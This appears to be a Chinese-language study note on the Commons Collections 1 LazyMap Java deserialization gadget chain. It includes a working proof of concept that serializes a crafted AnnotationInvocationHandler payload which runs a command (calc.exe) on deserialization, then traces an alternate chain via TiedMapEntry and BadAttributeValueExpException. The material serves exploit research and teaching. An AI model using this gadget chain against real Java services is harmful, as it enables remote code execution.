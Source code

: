 ```java
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.Arrays;
import java.util.HashMap;
import java.util.Map;

public class test {

    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"})
        };
        Transformer transformerChain = new ChainedTransformer(transformers);

        Map innerMap = new HashMap();
        innerMap.put("a", 1);
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);

        // 构建对象
        Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = cls.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(Target.class, outerMap);
        Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[] {Map.class}, handler);  // 代理对象
        handler = (InvocationHandler) constructor.newInstance(Target.class, proxyMap);  // 包裹


        // 序列化
        FileOutputStream fileOutputStream = new FileOutputStream("payload.ser");
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(fileOutputStream);
        objectOutputStream.writeObject(handler);

        // 反序列化
        FileInputStream fileInputStream = new FileInputStream("payload.ser");
        ObjectInputStream objectInputStream = new ObjectInputStream(fileInputStream);
        objectInputStream.readObject();
    }
}
```
![image.png](./Commons Collections1 LazyMap 利用链.assets/2023_05_19_10_37_40_uWrxRFtn.png)
## LazyMap 利用链补充
CC1受限制于jdk1.7，上面的poc使用了动态代理，那么有没有不使用动态代理的方法呢？（当然这里依然还是使用jdk1.7)
`LazyMap`类的`get方法`中调用了`transform`方法，那么除了`AnnotationInvocationHandler`的`invoke`方法中调用了get方法外，还有，`TiedMapEntry`类的`getValue`方法也调用了`get方法`
![image.png](./Commons Collections1 LazyMap 利用链.assets/2023_05_19_10_37_41_RWYxL3yh.png)
而且`this.map`我们也可以控制，但是我们最终要找的还是`readObject方法`中的触发点，所以继续网上找，看看哪里调用了`TiedMapEntry`的`getValue`方法，找到`TiedMapEntry`类的`toString`方法
![image.png](./Commons Collections1 LazyMap 利用链.assets/2023_05_19_10_37_41_GIHDjlro.png)
`toString方法`在进行字符串拼接或者手动把某个类转换为字符串的时候会被调用，所以，现在我们找找**把**`**TiedMapEntry**`**的对象当做字符串处理的地方**，找到了`BadAttributeValueExpException`的`readObject`方法中有相关调用：
![image.png](./Commons Collections1 LazyMap 利用链.assets/2023_05_19_10_37_41_BLF9NxV8.png)